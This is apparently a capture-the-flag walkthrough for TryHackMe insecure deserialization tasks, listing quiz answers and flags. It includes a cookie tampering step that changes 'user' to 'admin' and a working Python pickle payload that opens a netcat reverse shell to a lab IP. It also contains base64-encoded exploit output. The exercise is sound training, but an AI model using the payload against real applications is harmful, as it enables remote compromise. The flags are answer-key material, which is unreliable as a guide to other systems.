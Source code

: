 # Task 21\~26

## Insecure Deserialization <a href="#insecure-deserialization" id="insecure-deserialization"></a>

### Who developed the Tomcat application? <a href="#who-developed-the-tomcat-application" id="who-developed-the-tomcat-application"></a>

#### Answer <a href="#answer" id="answer"></a>

The Apache Software Foundation

### What type of attack that crashes services can be performed with insecure deserialization? <a href="#what-type-of-attack-that-crashes-services-can-be-performed-with-insecure-deserialization" id="what-type-of-attack-that-crashes-services-can-be-performed-with-insecure-deserialization"></a>

#### Answer <a href="#answer-1" id="answer-1"></a>

denial of service

## Insecure Deserialization - Objects <a href="#insecure-deserialization---objects" id="insecure-deserialization---objects"></a>

## Select the correct term of the following statement: <a href="#select-the-correct-term-of-the-following-statement" id="select-the-correct-term-of-the-following-statement"></a>

#### Answer <a href="#answer-2" id="answer-2"></a>

A Behaviour

## Insecure Deserialization - Deserialization <a href="#insecure-deserialization---deserialization" id="insecure-deserialization---deserialization"></a>

### What is the name of the base-2 formatting that data is sent across a network as? <a href="#what-is-the-name-of-the-base-2-formatting-that-data-is-sent-across-a-network-as" id="what-is-the-name-of-the-base-2-formatting-that-data-is-sent-across-a-network-as"></a>

#### Answer <a href="#answer-3" id="answer-3"></a>

binary

## Insecure Deserialization - Cookies <a href="#insecure-deserialization---cookies" id="insecure-deserialization---cookies"></a>

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

### If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be? <a href="#if-a-cookie-had-the-path-of-webappcomlogin--what-would-the-url-that-the-user-has-to-visit-be" id="if-a-cookie-had-the-path-of-webappcomlogin--what-would-the-url-that-the-user-has-to-visit-be"></a>

#### Answer <a href="#answer-4" id="answer-4"></a>

webapp.com/login

### What is the acronym for the web technology that Secure cookies work over? <a href="#what-is-the-acronym-for-the-web-technology-that-secure-cookies-work-over" id="what-is-the-acronym-for-the-web-technology-that-secure-cookies-work-over"></a>

#### Answer <a href="#answer-5" id="answer-5"></a>

https

## Insecure Deserialization - Cookies Practical <a href="#insecure-deserialization---cookies-practical" id="insecure-deserialization---cookies-practical"></a>

### 1st flag (cookie value) <a href="#1st-flag-cookie-value" id="1st-flag-cookie-value"></a>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

```shell
echo -n "gAN9cQAoWAkAAABzZXNzaW9uSWRxAVggAAAAZDYzOWIzNzUwMjM5NDM3ZTk4ZGZmOWM3NjEwOTYxZjlxAlgLAAAAZW5jb2RlZGZsYWdxA1gYAAAAVEhNe2dvb2Rfb2xkX2Jhc2U2NF9odWh9cQR1Lg==" |base64 --decode
```

```md
}q(X    sessionIdqX d639b3750239437e98dff9c7610961f9qX
                                                      encodedflagqXTHM{good_old_base64_huh}qu.%
```

#### Answer <a href="#answer-6" id="answer-6"></a>

qXTHM{good\_old\_base64\_huh}

### 2nd flag (admin dashboard) <a href="#2nd-flag-admin-dashboard" id="2nd-flag-admin-dashboard"></a>

Change `user` to `admin`

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Answer <a href="#answer-7" id="answer-7"></a>

THM{heres\_the\_admin\_flag}

## Insecure Deserialization - Code Execution <a href="#insecure-deserialization---code-execution" id="insecure-deserialization---code-execution"></a>

1. on local machine

Run nc listener

```
nc -lvnp 4444
```

Edit the python script with your VPN IP

```python
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.18.1.159 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

Run python script and get the base64 command.

```
gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTguMS4xNTkgNDQ0NCA+IC90bXAvZpSFlFKULg==
```

Edit the encodedPayload and get remote access

<figure><img src="../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

```
cat /home/cmnatic/flag.txt
```

#### Answer <a href="#answer-8" id="answer-8"></a>

4a69a7ff9fd68
